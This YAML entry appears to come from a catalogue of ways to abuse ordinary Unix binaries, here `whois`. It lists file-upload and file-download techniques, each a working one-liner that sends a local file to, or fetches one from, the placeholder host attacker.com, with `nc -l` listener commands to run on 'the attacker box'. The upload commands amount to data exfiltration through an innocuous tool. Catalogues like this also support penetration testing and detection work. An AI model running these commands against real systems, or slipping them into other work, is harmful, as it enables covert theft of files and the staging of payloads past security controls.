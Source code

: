 ```yaml
---
name: whois
description: |
  `whois` hangs waiting for the remote peer to close the socket.
functions:
  file-upload:
    - description: Send a text file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. The file has a trailing `$'\x0d\x0a'` and its length is limited by the maximum size of arguments.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        whois -h $RHOST -p $RPORT "`cat $LFILE`"
    - description: Send a binary file to a TCP port. Run `nc -l -p 12345 | tr -d $'\x0d' | base64 -d > "file_to_save"` on the attacker box to collect the file. The file length is limited by the maximum size of arguments.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        whois -h $RHOST -p $RPORT "`base64 $LFILE`"
  file-download:
    - description: Fetch remote text file from a remote TCP port. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file. The file has instances of `$'\x0d'` stripped.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        whois -h $RHOST -p $RPORT > "$LFILE"
    - description: Fetch remote binary file from a remote TCP port. Run `base64 "file_to_send" | nc -l -p 12345` on the attacker box to send the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        whois -h $RHOST -p $RPORT | base64 -d > "$LFILE"
---
```

